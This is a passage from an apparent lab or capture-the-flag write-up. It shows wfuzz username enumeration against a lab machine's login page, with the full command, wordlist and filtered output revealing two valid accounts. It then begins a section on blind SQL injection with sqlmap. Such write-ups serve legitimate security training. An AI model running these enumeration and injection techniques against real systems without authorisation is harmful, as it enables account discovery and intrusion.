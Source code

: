     ********************************************************
    * Wfuzz 2.2.9 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.73/login.php
    Total requests: 10163
    
    ==================================================================
    ID      Response   Lines      Word         Chars          Payload
    ==================================================================
    
    000001:  C=200    102 L      657 W         7074 Ch        "aaliyah"
    000002:  C=200    102 L      657 W         7074 Ch        "aaren"
    000004:  C=200    102 L      657 W         7074 Ch        "aaron"
    000041:  C=200    102 L      657 W         7074 Ch        "achal"
    000042:  C=200    102 L      657 W         7074 Ch        "achamma"
    ^C
    Finishing pending requests...
    

Now that we see that a non-existent username returns a response that’s 7074
characters, let’s exclude that result, using the `--hh 7074`:

    
    
    root@kali# wfuzz -c -w /opt/SecLists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074
    
    ********************************************************
    * Wfuzz 2.2.9 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.73/login.php
    Total requests: 10163
    
    ==================================================================
    ID      Response   Lines      Word         Chars          Payload
    ==================================================================
    
    000086:  C=200    102 L      659 W         7091 Ch        "admin"
    001883:  C=200    102 L      659 W         7091 Ch        "chris"
    
    Total time: 328.8529
    Processed Requests: 10163
    Filtered Requests: 10161
    Requests/sec.: 30.90438
    

So we confirmed two accounts, admin and chris.

#### SQL Injection - sqlmap

##### basic sqlmap

Getting `sqlmap` to find this took a bit of work. When I was first doing this
box, I got it to work somehow using the `--tamper-data` but I both couldn’t
repeat that, and don’t really understand why it worked. What we can do is use
the fact that we have a field in username that changes based on if the
username is good to do blind injection. That is done with the `--string`
option.
